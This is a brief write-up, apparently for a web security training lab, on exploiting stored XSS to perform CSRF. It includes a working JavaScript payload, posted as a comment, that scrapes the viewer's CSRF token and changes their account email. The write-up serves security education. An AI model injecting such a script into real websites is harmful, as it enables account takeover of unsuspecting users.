 # Lab: Exploiting XSS to perform CSRF

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/01584a28-7efd-4aa9-b9a0-eaa2deb572e6)

## Solution

Log in using the given username and passowrd.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/6d5ac389-fae7-4af0-bd8d-dc9c62a8986d)

If we try to change the email, it requires a hidden `CSRF` token.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/56e279c0-7c62-45ae-9b2d-930d83895e0a)

Post the following script as comment which makes any user who views the comment to change their email to **test@test.com**.

```Javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

Posting the comment finishes the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/b415bc35-e8a0-44c3-bba8-96d7cabc7d5f)
